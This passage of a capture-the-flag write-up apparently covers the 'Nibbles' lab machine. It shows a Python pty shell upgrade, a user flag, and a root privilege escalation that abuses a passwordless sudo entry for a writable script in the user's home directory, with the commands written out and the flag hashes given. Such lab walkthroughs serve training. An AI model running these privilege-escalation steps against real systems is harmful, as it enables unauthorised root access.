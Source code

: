 6. Upgrade shell to navigate the system
	```
	/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
	```
7. User Flag
	```
	d4d25b1208ca67d967af58cdf274172e
	```
	![]({{ page.img_path }}Pasted%20image%2020220822193814.png)


# Privilege Escalation

## Root - Via Sudo
1. Check `nibbler` sudo access
	```
	nibbler@Nibbles:/home/nibbler$ sudo -l
	Matching Defaults entries for nibbler on Nibbles:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User nibbler may run the following commands on Nibbles:
	    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
	
	```
	- Able to run `/home/nibbler/personal/stuff/monitor.sh` as `root`
2. Exploit
	```
	nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff
	nibbler@Nibbles:/home/nibbler$ echo "/bin/bash -p" > /home/nibbler/personal/stuff/monitor.sh; chmod 4777 /home/nibbler/personal/stuff/monitor.sh
	nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
	```
	![]({{ page.img_path }}Pasted%20image%2020220822195045.png)
3. Exploit Explanation
	- `monitor` resides in `nibbler`'s home directory, giving `nibbler` `RWX` on all files that resides there.
	- Since we are able to execute `montior.sh` as root, we are able to create a script (`monitor.sh`) in `nibbles`'s home directory that will execute `/bin/bash` as sudo, giving us `root`
4. Root Flag
	```
	9c53a06fb42fcebeb3627522b8a3f0ac
	```
	![]({{ page.img_path }}Pasted%20image%2020220822195124.png)

